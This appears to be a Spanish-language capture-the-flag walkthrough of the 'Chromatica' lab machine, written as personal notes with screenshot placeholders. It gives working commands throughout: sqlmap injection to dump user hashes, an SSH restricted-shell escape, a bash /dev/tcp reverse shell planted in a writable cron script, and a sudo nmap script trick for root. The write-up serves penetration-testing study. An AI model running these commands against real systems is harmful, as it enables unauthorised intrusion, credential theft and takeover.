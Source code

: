 Resolución de la Maquina Chromatica

# Escaneo de puertos
```
sudo nmap -p- -open -sS -sC -sV -Pn 10.0.2.12 -vvv
```


El resultado es evidente en el puerto 80 hay un servicio http en el 22 un ssh y el 5353  parece ser  un servicio para redireccionar DNS

#### Entrando a la web

Se puede observar que ingresamos normalmente al sitio como cualquier otro


Ahora por regla general debemos buscar 2 archivos de configuración el primero es el robots.txt y el segundo es el sitemap.txt  
probé el robots.txt y dio resultado  


Ahora aquí debemos tirar de burpsuite para pasar la cabecera user-agent a la ruta dev-portal.
encendemos el fozy-proxi, y metemos la ruta /dev-portal/
en principio debe salir que no tenemos permiso a la web 
![[Pasted image 20240526135607.png]]
ahora tiramos del burpsuite, modificamos la cabecera user-agent 
![[Pasted image 20240526135708.png]]
y listo tenemos acceso a un input
![[Pasted image 20240526135813.png]]
si inspeccionamos la pagina 
![[Pasted image 20240526135929.png]]
vemos que hay una acción de tipo search.php por lo que vamos a usarla en la url, sin apagar el burpsuite usamos la misma cabecera dev, lo que nos devuelve un listado con los valores de la base de datos.
![[Pasted image 20240526140244.png]]
en este punto podríamos validar si es vulnerable a [[2-Sql Inyection]] agregando al final de la url ?city=Chicago
![[Pasted image 20240526140611.png]]
podemos asumir que las consultas hechas por la URL funcionan, ahora probemos si es vulnerable a SQLI con un  " OR 1 =  1 "
![[Pasted image 20240526141854.png]]
nos dice que no hay resultados para mostrar por lo que es vulnerable a sql inyection
ahora vamos a usar sqlmap
##### Usando SQL map

```
sqlmap -u 'http://10.0.2.12/dev-portal/search.php?city=p*' -H 'user-agent:dev' --dbs --tables --exclude-sysdbs
```
	

![[Pasted image 20240526142252.png]]

ahora tenemos acceso a la base de datos atraves de sqlmap y la base de datos se llama chromatica
entonces usaremos 
```
 sqlmap -u 'http://10.0.2.12/dev-portal/search.php?city=p*' -H 'user-agent:dev' --dbs --tables --exclude-sysdbs -D Chromatica -T users --dump 
```

	- H es para indicar la cabecera
	 - D es para indicar la DataBaSe 
	- T es para indicar la tabla a utilizar 
	-- dump es para verter o sacar lo que hay en esa tabla
una vez ejecutado. vemos lo siguiente en la tabla usuarios.
![[Pasted image 20240526144043.png]]
ahora podemos usar Name-That-Hash para saber que tipo de encriptación tienen
paso el comando nth -t 1ea6762d9b86b5676052d1ebd5f649d7 --accessible
y sale como resultado 
 que lo mas probable es que sea md5
 ![[Pasted image 20240526150743.png]]
 una vez identificado el tipo de hash vamos a usar hashcat (forma dificil y lenta usando fuerza bruta)
 o vamos a una web que ya tenga crackeado todo y lo sacamos de allí 
 en este caso lo sacamos de crackstation
 ![[Pasted image 20240526153134.png]]
 ahora vamos a conectarnos por SSH
 #### conexión SSH
	 hacemos un ssh dev@10.0.2.12
	 nos sale un error 

 ![[Pasted image 20240526153636.png]]
 pero que pasa si reducimos el tamaño de la consola?
 ![[Pasted image 20240526153852.png]]
 y escribimos !bash
 al parecer hay un error en ssh que cuando reduces la consola te deja insertar comandos y así puedes ejecutar una shell 
 ![[Pasted image 20240526154158.png]]
 ya estamos dentro de el usuario dev
 
 ## Escalar privilegios
 primero aremos  el tratamiento de la TTY
```
1 script /dev/null  -c bash pulsamos control +z
2  stty raw -echo; fg
3 enter, escribimos reset y nuevamente enter
4 escribimos xterm
5 hacemos export TERM=xterm y export SHELL=bash
listo con esto tratamos la TTY
```

lo siguiente es investigar las rutas tipicas :
![[Pasted image 20240527154750.png]]
en este caso en la carpeta /otp encontramos un script  y vemos que tenemos permisos de ejecución, lectura y escritura.
**![[Pasted image 20240527155736.png]]**
modificamos y metemos una reverse con bash
```
bash -i >& /dev/tcp/10.0.2.12/443 0>&1
```
ponemos un puerto a la escucha en el puerto 443
esperamos que se ejecute la tarea de crontab.
![[Pasted image 20240527160417.png]]
tenemos acceso a otro user
tratamos la TTY y luego un sudo -l
![[Pasted image 20240527161127.png]]
aqui nos dice que podemos ejecutar nmap de forma nativa y sin contraseñas (pide ser sudo )
ahora hacemos lo siguiente
``` bash
TF=$(mktemp)

echo 'os.execute("/bin/bash && SHELL=/bin/bash script -q 2>/dev/null ")' > $TF

sudo nmap --script=$TF
```

una vez ejecutado todo ya tendremos acceso a root 
![[Pasted image 20240527173001.png]]